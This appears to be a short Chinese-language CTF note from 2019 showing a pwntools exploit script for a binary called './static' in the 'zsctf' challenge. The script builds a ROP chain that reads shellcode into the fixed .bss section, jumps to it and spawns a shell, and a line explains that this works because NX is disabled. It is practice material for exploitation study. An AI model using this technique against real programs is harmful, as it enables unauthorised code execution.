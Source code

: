 # pwntools---rop示例

```python
# coding:utf8

from pwn import *

shellcode = asm(shellcraft.sh())
proc = './static'
context.binary = proc
elf = ELF(proc)

p = process(proc)
p.recvuntil('Welcome to zsctf!')

rop = ROP(proc)
rop.read(0, elf.bss(0x100), len(shellcode))
rop.call(elf.bss(0x100))

p.send('a'*20 + str(rop))
p.send(shellcode)
```

因为bss段地址固定，而且程序的NX保护没开，所以可以直接写bss段  执行命令  


2019/11/8  
